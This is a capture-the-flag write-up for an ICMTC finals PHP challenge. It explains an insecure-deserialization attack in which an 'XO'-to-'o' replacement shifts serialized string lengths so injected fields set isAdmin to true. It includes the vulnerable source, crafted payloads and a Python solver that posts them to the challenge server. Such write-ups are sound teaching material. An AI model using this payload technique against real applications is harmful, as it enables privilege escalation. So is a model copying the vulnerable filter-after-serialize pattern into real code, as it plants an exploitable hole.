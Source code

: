 ```yaml
---
title: ICMTC Finals - Puzzle 2
author: 0x41ly
classes: wide
ribbon: red
header:
  teaser: /assets/images/icmtc-logo.png 
date: 2023-07-17 06:00:00 +0800
categories: CTF
description: "no one has solved Puzzle 2 in ICMTC CSC CTF Finals..."
tags: [php, insecure-deserialization]
---
```



We were provided a source code:
```php
<?php

include 'flag.php';

session_start();
class Users
{
    protected $username;
    protected $password;
    private $isAdmin = false;
    private $id = '';

    public function __construct($username , $password)
    {
        $this -> username = $username;
        $this -> password = $password;
        $this -> isAdmin = false;
    }

    public function __isAdmin(){
        return $this -> isAdmin;
    }

    public function setUsername($username)
    {
        $this -> username = $username;
    }

    public function setPassword($password)
    {
        $this -> password = $password;
    }

    public function getUsername()
    {
        return $this -> username;
    }

    public function getPassword()
    {
        return $this -> password;
    }
}


isset($_GET['src']) ? highlight_file(__FILE__) : '';


if(isset($_POST['solve']))
{
    $user = new Users($_POST['username'],$_POST['password']);
    $_SESSION['user'] = serialize($user);

}
else
{
    if(!isset($_SESSION['user']))
        $user = new Users("EG-CERT","Hi!");
    else
    {
        $user = str_replace('XO', 'o', $_SESSION['user']);
        $user = unserialize($user);
    }

    if($user -> __isAdmin())
        echo $FLAG;
    else
        echo "Try Again !!";

}
?>
```

To read the Flag we must set the `isAdmin` to true 
#### **Obstacles** :
- we don't have control to the whole serialized object but only 2 variables that be used in serialization and unserialization.

#### Bypasses:
- we have a good hint here
	```php
	$user = str_replace('XO', 'o', $_SESSION['user']);
	```
	where we can manipulate the length of the serialized object before being serialized.

  #### Example 
  Lets at first see an example of a normal serialized object
  ```php
  $user= new Users("lol","lol");
  echo serialize($user);
// O:5:"Users":
//	4:{
//		s:11:"�*�username";
//			s:3:"lol";
//		s:11:"�*�password";
//  			s:3:"lol";
//		s:14:"�Users�isAdmin";
//			b:0;
//		s:9:"�Users�id";
//  			s:0:"";
//    }
```

It is very important to take care of the null bytes in the serialized object as they are considered as a part of the string length here.

#### MindSet
- We will try to manipulate the length of the serialized object before its being unserialized by using the `XO` hint
if we set the username to a `XOXOXOXOXOXO` the usernamestring will be considered as 12 byte long string but before unserialize the same object the XO will be replaced with "o" which will make the string itself 6 byte long but when unserialize the object the function will replace the missing 6 bytes with the next 6 bytes after the replacd string 
##### Example
Let's forget about the nullbytes now but we will need it later
```php
 $user = new Users("XOXOXOXOXO","");
O:5:"Users":4:
{
	s:11:"*username";
		s:10:"XOXOXOXOXO";
	s:11:"*password";
		s:0:"";
	s:14:"UsersisAdmin";
		b:0;
	s:9:"Usersid";
		s:0:"";
}
```

after this being replaced the object will be  like this
```php
O:5:"Users":4:
{
	s:11:"*username";
		s:10:"ooooo";s:1
	//and here it will gives you a parse error
	//1:"*password";
	//s:0:"";s:14:"UsersisAdmin";
	//b:0;s:9:"Usersid";s:0:"";}
```

What can we benefit from this?
We can force the serialized object to reconstruct itself so we can control the whole object.

The attack contains 2 parts.
##### First part -- Username
we will force the username to be equal `{n*o}";s:11:"�*�password";s:{password part payload length}:`

if we count the byte needed considering that the password payload is 2 digits long we need 26 bytes including the null bytes to be replaced so we will just write 26 `XO's`

```php
$user= new Users("XOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXO",
			"{there will be a payload here}");

O:5:"Users":4:
{
	s:11:"*username";
		s:52:"oooooooooooooooooooooooooo";s:11:"*password";s:30:"
		// here we can control the password payload
		{there will be a payload here}";s:14:"UsersisAdmin";b:0;s:9:"Usersid";s:0:"";}

```

and now it is obvious what we are going to do we will put the rest of the object n the password string.

 Second part -- Password
 What messing in the object is the Password field and the most important part which is `isAdmin` attribute 
 
 The final payload will be 
 ```php
 s:11:"�*�password";s:3:"lol";s:14:"�Users�isAdmin";b:0;s:9:"�Users�id";s:49:"
```

so when it be put all together the object look like 
``` php
O:5:"Users":4:{
	s:11:"*username";
		s:52:"oooooooooooooooooooooooooo";s:11:"*password";s:75:";
	s:11:"*password";
		s:0:"";
	s:14:"UsersisAdmin";
		b:1;
	s:9:"Usersid";
		s:49:"";s:14:"UsersisAdmin";b:0;s:9:"Usersid";s:0:"";
}

```

So if we created the object like this 
```php
$user = new Users("XOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXO",";s:11:\"\0*\0password\";s:0:\"\";s:14:\"\0Users\0isAdmin\";b:1;s:9:\"\0Users\0id\";s:49:\"");
$serialized= serialize($user);
$serialized2 = str_replace('XO', 'o', $serialized);
$unser_user = unserialize($serialized2);
echo var_dump($unser_user);
```

![](/assets/images/puzzle2/explain.png)

Now we reached our objective to make the `isAdmin=true`

solver.py
```python
from requests import post
from base64 import b64decode

url = "http://139.59.129.141:8087/"
payload = ';s:11:"\x00*\x00password";s:0:"";s:14:"\x00Users\x00isAdmin";b:1;s:9:"\x00Users\x00id";s:49:"'
body = {'solve': 'true', 'username': 'XOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXO', 'password': payload}

# res = post("http://localhost:8080", data=body)
res = post(url, data=body)

cookie = res.headers['Set-Cookie']

print(cookie)
res = post(url , headers={'Cookie': cookie})
print(res.text)
```


![](/assets/images/puzzle2/demo.jpeg)



---
Thanks for reading our writeup
